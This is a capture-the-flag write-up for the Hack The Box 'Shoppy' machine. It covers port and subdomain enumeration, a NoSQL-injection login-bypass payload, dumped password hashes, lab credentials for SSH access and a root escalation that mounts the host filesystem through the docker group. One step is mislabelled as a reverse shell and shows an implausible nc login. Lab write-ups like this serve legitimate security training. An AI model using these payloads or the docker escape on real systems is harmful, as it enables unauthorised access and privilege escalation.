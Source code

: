 author = ['Abdallah Adham']
title = "Shoppy HTB Writeup"
date = 2022-11-8
description = "This is a writeup of the Shoppy machine in Hack The Box platform."
draft = false
slug = ""

tags = [
	'HackTheBox',
    'PenTesting',  
    'Web', 
    'Exploit', 
    'Vulnerability',]

categories = [
    'Pen-Testing',  
    'Web-Security',
    ]

image = "post/Shoppy_HTB/shoppy_htb.png"
+++

---

## Scanning 

```bash
─$ nmap 10.10.11.180 -A -oN nmap.txt 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-07 08:19 EST
Stats: 0:00:05 elapsed; 0 hosts completed (0 up), 1 undergoing Ping Scan
Parallel DNS resolution of 1 host. Timing: About 0.00% done
Stats: 0:00:07 elapsed; 0 hosts completed (0 up), 1 undergoing Ping Scan
Parallel DNS resolution of 1 host. Timing: About 0.00% done
Stats: 0:00:50 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.29% done; ETC: 08:20 (0:00:00 remaining)
Nmap scan report for 10.10.11.180
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e5e8351d99f89ea471a12eb81f922c0 (RSA)
|   256 5857eeeb0650037c8463d7a3415b1ad5 (ECDSA)
|_  256 3e9d0a4290443860b3b62ce9bd9a6754 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-server-header: nginx/1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.82 seconds
```

## Enumeration

### Subdomain Enumeration

```bash
─$ ffuf -w Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host: FUZZ.shoppy.htb" -u http://shoppy.htb -t 10 -mc 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://shoppy.htb
 :: Wordlist         : FUZZ: Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.shoppy.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200
________________________________________________

mattermost              [Status: 200, Size: 3122, Words: 141, Lines: 1, Duration: 123ms]
:: Progress: [100000/100000] :: Job [1/1] :: 64 req/sec :: Duration: [0:22:27] :: Errors: 0 ::
```
### Directory Enumeration

$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://shoppy.htb/FUZZ

images                  [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 157ms]
login                   [Status: 200, Size: 1074, Words: 152, Lines: 26, Duration: 124ms]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 85ms]
assets                  [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 90ms]
css                     [Status: 301, Size: 173, Words: 7, Lines: 11, Duration: 83ms]
Login                   [Status: 200, Size: 1074, Words: 152, Lines: 26, Duration: 88ms]
js                      [Status: 301, Size: 171, Words: 7, Lines: 11, Duration: 86ms]
fonts                   [Status: 301, Size: 177, Words: 7, Lines: 11, Duration: 439ms]
Admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 96ms]
exports                 [Status: 301, Size: 181, Words: 7, Lines: 11, Duration: 160ms]
                        [Status: 200, Size: 2178, Words: 853, Lines: 57, Duration: 87ms]
LogIn                   [Status: 200, Size: 1074, Words: 152, Lines: 26, Duration: 143ms]
LOGIN                   [Status: 200, Size: 1074, Words: 152, Lines: 26, Duration: 118ms]
:: Progress: [220560/220560] :: Job [1/1] :: 443 req/sec :: Duration: [0:09:27] :: Errors: 0 ::

## Exploitation

### NoSQL Injection

```txt
username= admin'||'1==1
password= anything
```

```json
[{"_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"},
 {"_id":"62db0e93d6d6a999a66ee67b","username":"josh","password":"6ebcea65320589ca4f2f1ce039975995"}]
 
```


### Hash Decryption

```txt
Josh Account:

Hash: 6ebcea65320589ca4f2f1ce039975995

type: md5

result: remembermethisway
```


### SSH Reverse shell

```bash
Jaeger account:
username: jaeger
password: Sh0ppyBest@pp!

─$ nc jaeger@shoppy.htb
jaeger@shoppy.htb password: Sh0ppyBest@pp!
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Nov  8 05:53:00 2022 from 10.10.14.38
jaeger@shoppy:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  ShoppyApp  shoppy_start.sh  Templates  user.txt  Videos

```

#### User.txt
```bash
jaeger@shoppy:~$ cat user.txt 
b43c5028ab833b5XXXXXXXXXXXXXX
```

## Privilage Escalation

### Sudo -l

```bash
jaeger@shoppy:~$ sudo -l
[sudo] password for jaeger: 
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```


```bash 
jaeger@shoppy:~$ cat /home/deploy/password-manager

Welcome to Josh password manager!Please enter your master password: SampleAccess granted! Here is creds !cat /home/deploy/creds.txtAccess denied! This incident will be reported !

```

```bash
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

```bash
$ ssh deploy@shoppy.htb 
deploy@shoppy.htb password: 
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Nov  8 06:04:57 2022 from 10.10.14.38
$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```

```bash
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
$ cat root.txt
e65b2ace8ff78062XXXXXXXXXXXX
```

_Pwned_
![pwned](post/Shoppy_HTB/imgs/Shoppy/1.png)